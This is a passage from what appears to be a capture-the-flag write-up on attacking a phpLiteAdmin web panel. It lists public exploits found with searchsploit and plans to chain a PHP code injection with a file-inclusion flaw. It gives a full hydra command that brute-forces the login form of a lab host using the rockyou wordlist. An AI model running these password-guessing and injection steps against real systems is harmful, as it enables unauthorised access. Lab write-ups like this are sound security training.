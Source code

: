 ![Port 443 DB page](screenshots/443_db.png)

A quick searchsploit showed a variety of options.

```none
└─$ searchsploit phpliteadmin            
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection                                              | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities                                       | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                    | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                     | php/webapps/39714.txt
```

The most promising option was `PHPLiteAdmin 1.9.3 - Remote PHP Code Injection` which seemed to need access to the web panel to exploit. With this exploit, we could upload a PHP snippet, and run it with the LFI from port 80. The other exploits listed were for XSS, CSRF, HTML injection and SQL injection - and not useful in this challenge. The only option left to get web access, seemed to be password guessing. Luckily this form only has a password field - so no guessing usernames.

```none
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```
